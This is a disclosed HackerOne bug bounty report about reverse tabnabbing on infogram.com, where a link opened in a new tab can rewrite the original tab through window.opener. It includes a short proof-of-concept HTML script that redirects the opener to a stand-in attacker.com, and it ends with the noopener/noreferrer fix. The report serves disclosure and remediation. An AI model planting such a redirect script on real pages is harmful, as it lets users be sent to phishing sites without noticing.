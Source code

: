 # Tabnabbing via window.opener

## Report Details
- **Report ID**: 280500
- **URL**: https://hackerone.com/reports/280500
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-10-19T13:35:13.660Z
- **Disclosed**: 2017-11-06T09:04:32.241Z

## Reporter
- **Username**: mr_r3boot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
Hi Team, i would like to report tab nabbing issue on your domain.

#Details:

When you open a link in a new tab ( target="_blank" ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property.

#PoC:

1.Navigate to ```https://infogram.com/app/[userproject]```.
2. Provide any url as evil url. http://test.com/test.html test.html contains following code.

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace('http://attacker.com');
if (window.parent != window) window.parent.location.replace('http://attacker.com');
</script>
blah
</html>
```
Also check Open link in new tab

The javascript code that does all the magic: 
```window.opener.location.replace(newURL);```
my link will open in new tab and original tab will be replaced with attacker malicious link.

#Fix:

In order to mitigate this issue, developers are encouraged to use rel="nofollow noopener noreferrer" as follows:

```
<a target="_blank" class="btn external-url" href="https://evil.com" rel="nofollow noopener noreferrer"><i class="fa fa-external-link"></i>
</a>
```

Let me know if u have problems in reproducing the issue.

Regards,
Mr.R3boot.

## Attachments
- TabNabbing.mp4
